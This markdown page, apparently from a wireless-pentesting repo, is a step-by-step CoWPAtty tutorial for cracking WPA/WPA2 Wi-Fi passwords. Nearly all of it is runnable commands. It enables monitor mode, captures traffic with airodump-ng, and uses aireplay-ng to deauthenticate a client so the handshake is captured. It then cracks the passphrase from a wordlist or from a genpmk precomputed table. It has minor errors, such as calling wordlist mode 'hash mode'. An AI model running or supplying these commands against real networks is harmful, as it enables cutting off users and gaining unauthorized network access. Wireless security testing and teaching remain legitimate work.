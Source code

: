 # CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary/wordlist mode (plaintext) or hash/rainbow. The latter is quicker.

## Installation

```bash
# Install cowpatty/genpmk
sudo apt-get update
sudo apt-get install cowpatty -y
```

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c
```

![cowpatty-check](../../images/cowpatty-check.png)

## WORDLIST Mode

* Crack the password in hash mode (slowest)

```bash
# Crack the password in dictionary mode
# Cowpatty running wordlist is slower than aircrack-ng
cowpatty -r $PCAP -f $WORDLIST -s $SSID
```

![cowpatty-check](../../images/cowpatty-crack.png)

## RAINBOW Mode

* Crack the password in hash mode (fastest)

```bash
# Need to first generate a RAINBOW table based on a provided WORDLIST/SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```

![cowpatty-check](../../images/cowpatty-crack-rainbow.png)

## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

![fourway-handshake](../../images/fourway-handshake.png)

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
* [Cowpatty](https://www.willhackforsushi.com/?page_id=50)
* [Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table)
